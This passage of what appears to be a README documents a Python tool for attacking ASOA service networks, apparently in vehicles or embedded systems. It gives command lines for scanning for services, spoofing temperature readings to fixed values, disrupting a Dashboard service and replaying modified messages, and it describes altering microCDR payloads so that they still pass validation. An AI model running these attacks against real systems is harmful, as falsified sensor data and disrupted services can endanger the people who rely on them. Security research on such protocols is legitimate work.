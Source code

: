 3. **Verify platform support:**
   ```bash
   sudo python3 main.py --help
   ```

### Basic Usage

#### 1. Discover ASOA Services
```bash
# Scan network for ASOA services
sudo python3 main.py --scan-asoa

# Scan specific network range
sudo python3 main.py --scan-asoa --network-range 192.168.1.0/24
```

#### 2. Temperature Spoofing Attack
```bash
# Force all temperature readings to 99.9°C
sudo python3 main.py --attack temperature-spoof --target-temp 99.9

# Attack specific target
sudo python3 main.py --attack temperature-spoof --target-ip 192.168.1.100 --target-temp 85.0
```

#### 3. Service Disruption Attack
```bash
# Disrupt communication to Dashboard service
sudo python3 main.py --attack service-disrupt --target-service Dashboard
```

#### 4. Message Replay Attack
```bash
# Replay modified messages 10 times
sudo python3 main.py --attack message-replay --replay-count 10
```

## 🔧 Advanced Features

### ASOA Protocol Analysis

The system includes sophisticated ASOA protocol analysis:

- **Packet Header Parsing**: Extracts ASOA message headers and metadata
- **Service Identification**: Maps service IDs to functionality
- **Temperature Data Extraction**: Locates temperature values in ucdr payloads
- **Checksum Validation**: Ensures message integrity

### ucdr Serialization Handling

Advanced microCDR serialization support:

- **Data Structure Parsing**: Handles complex ucdr data structures
- **Temperature Modification**: Modifies temperature values while maintaining integrity
- **Alignment Handling**: Properly handles data alignment requirements
- **Validation**: Ensures modified data remains valid
